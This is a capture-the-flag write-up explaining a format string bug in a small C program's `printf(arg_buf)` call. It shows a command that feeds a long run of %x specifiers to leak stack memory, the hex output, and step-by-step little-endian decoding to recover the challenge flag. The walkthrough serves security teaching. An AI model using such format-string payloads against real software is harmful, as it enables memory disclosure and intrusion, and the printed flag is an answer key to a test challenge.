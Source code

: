 ## Solution
- This is a *format string* vulnerability!
- The C function `printf` is extremely powerful. In particular, it is a variable length argument function.   
- Because of this, if the wrong number of parameters (for the amount of format strings specified) is put in, then the user can control the format string itself!  
- Using this vulnerability, an arbitrary write primitive or arbitrary read primitive is possible :)  
- This occurs  because of the code `printf(arg_buf);`. `arg_bufs` is interpretted as the format string itself, allowing for us to inject whatever we want into the interprettation.
- Using `%x` allows for us to leak memory from the stack (which is where the function  
parameters for the format string are put). 
    - Because we copied the *flag* string to the stack, this we can leak the flag!   

An example execution and output is shown below: 

```
./hello_world "%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xx%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x"

ffd463f264566483f3ffd456f41ffd46fdcffd456a4f7fcd89cffd4559b578ee33045f7b334353736968746565735f695f736d736f706d697373737d656c62a0078257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825158e8500ffd4561000
```

- Although this looks like a bunch of non-sense, if we change the hex to ascii (with something like https://www.rapidtables.com/convert/number/hex-to-ascii.html),   then it looks quite a bit better! 
```
ÿÔcòdVdóÿÔVôýFýÏýEjOÍÏýEYµxî3_{3CSsihtees_i_smsopmisss}elb WWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWQXèPýEa
```

- The flag is `{3CSsihtees_i_smsopmisss}elb`. 
    - However, it looks garbled. This is because of memory on x86 is arranged in little endian format and is reversed for strings. 
    - When we are printing this via the `%x` specifier, we are printing out hex integers. Because the formating is unexpected, it's printed out wrong.   

- This means that the data is *reversed* from what is stored in memory in groups of 4. 
    - For instance, '{3CS' is the first part of the flag. 
    - We need to reverse each of the 4 bytes to get this nibble of bytes. This gives us 'SC3{', then 'this' and so on.  
    - At the end, the flag can be split up like so, then reversed: `{3CS siht ees_ i_sm sopm isss }elb` turns into `SC3{ this _see ms_i mpos sssi ble}`.   
- Finally, combine the entries to get `SC3{this_seems_impossssible}` for the flag. 
- SC3{this_seems_impossssible}
